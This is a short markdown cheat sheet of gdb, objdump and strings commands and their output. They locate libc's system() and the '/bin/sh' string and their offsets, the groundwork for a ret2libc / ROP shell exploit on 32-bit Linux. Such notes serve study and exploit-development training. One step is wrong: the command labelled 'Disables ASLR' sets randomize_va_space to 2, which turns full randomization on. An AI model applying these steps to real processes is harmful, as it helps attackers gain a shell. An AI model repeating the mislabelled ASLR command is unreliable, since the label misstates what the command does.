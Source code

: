 ### Finds system address

```
$gdb print system
0xb7e53260
```

### Finds /bin/sh string in memory

```
gdb$ find &system, +999999, "/bin/sh"
0xb7f7bb98
warning: Unable to access 16000 bytes of target memory at 0xb7fc5f20, halting search.
1 pattern found.
```

### Disables ASLR 

``sudo sysctl -w kernel.randomize_va_space=2``


### Finds system@plt and /bin/sh's offset in libc for ROPing

```
objdump -d libc > di
grep "system>:" di
00041260 <__libc_system>:
strings -tx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 169b98 /bin/sh
```
